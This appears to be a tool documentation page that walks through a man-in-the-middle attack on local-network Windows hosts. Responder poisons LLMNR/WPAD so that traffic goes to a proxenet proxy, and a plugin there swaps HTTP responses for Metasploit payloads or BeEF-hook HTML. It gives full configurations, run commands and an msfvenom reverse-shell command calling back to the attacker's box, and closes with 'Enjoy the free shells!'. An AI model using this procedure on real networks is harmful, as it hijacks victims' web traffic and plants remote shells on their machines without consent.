 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome tool
[Responder](https://github.com/SpiderLabs/Responder) in two easy steps.


## Network setup ##

We will the Windows hosts on the network `192.168.56.0/24`. Our evil box will be
at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration to our evil box. The configuration is
pretty easy since we don't need any feature from `Responder` except the
poisoning.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName =
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY ISAProxySrv:8008';}
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see next part).
```
sudo python2 Responder.py -v -I vboxnet0 -u 192.168.56.1:8008
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008
```

Or add the `-N` option to disable the SSL interception and make it stealthier.


## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Whenever, the victim will use their web browser setup in
   "Auto-configuration".
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !
